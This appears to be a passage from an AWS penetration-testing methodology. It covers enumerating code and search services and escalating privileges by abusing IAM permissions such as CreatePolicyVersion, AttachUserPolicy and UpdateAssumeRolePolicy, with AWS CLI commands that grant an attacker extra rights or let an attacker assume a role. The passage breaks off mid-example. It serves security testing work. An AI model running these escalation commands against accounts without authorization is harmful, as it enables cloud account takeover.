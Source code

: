 ### Other Notable Services

* **CodeCommit, CodeBuild, CodeDeploy, CodePipeline:**
    * Look for source code, build artifacts, deployment configurations.
    * Example: `aws codecommit list-repositories --profile <profile_name> --region <region>`
* **Elasticsearch/OpenSearch:**
    * Check for public access, authentication/authorization.
        ```bash
        aws es describe-elasticsearch-domains --profile <profile_name> --region <region>
        # aws opensearch describe-domains --profile <profile_name> --region <region> (for OpenSearch)
        ```

---

## Phase 3: Privilege Escalation

* **Exploit IAM Misconfigurations:**
    * `iam:CreatePolicyVersion`: Create a new version of an existing policy attached to a privileged user/role, granting yourself more permissions.
        ```bash
        # 1. Get current policy document
        # 2. Modify it to add malicious permissions
        # 3. Create new policy version
        aws iam create-policy-version --policy-arn <policy_arn> --policy-document file://new_policy.json --set-as-default --profile <profile_name>
        ```
    * `iam:SetDefaultPolicyVersion`: Change the default version of a policy to a more permissive (potentially older and less secure) version.
    * `iam:PutUserPolicy`, `iam:PutRolePolicy`, `iam:PutGroupPolicy`: Attach a new inline policy.
    * `iam:AttachUserPolicy`, `iam:AttachRolePolicy`, `iam:AttachGroupPolicy`: Attach an existing managed policy. (As seen in "arte_IAM_2_AttachUserPolicy.pdf")
        ```bash
        aws iam attach-user-policy --user-name $UserName --policy-arn $TargetPolicyARN --profile <profile_name>
        ```
    * `iam:UpdateAssumeRolePolicy`: If you have permission to update the trust policy of a role, you can allow your user (or another controlled principal) to assume it.
        ```bash
        # 1. Get existing trust policy
        aws iam get-role --role-name <role_name> --query Role.AssumeRolePolicyDocument --output json > current_trust.json
        # 2. Modify current_trust.json to add your principal (e.g., "AWS": "arn:aws:iam::ACCOUNT_ID:user/YourUser")
        # 3. Update the policy
        aws iam update-assume-role-policy --role-name <role_name> --policy-document file://modified_trust.json --profile <profile_name>
        ```
    * `iam:PassRole` + Service that can use the role (e.g., `ec2:RunInstances` with a role that has admin privileges, `lambda:CreateFunction` with a role).
    * `sts:AssumeRole`: If you can assume a role with higher privileges.
        ```bash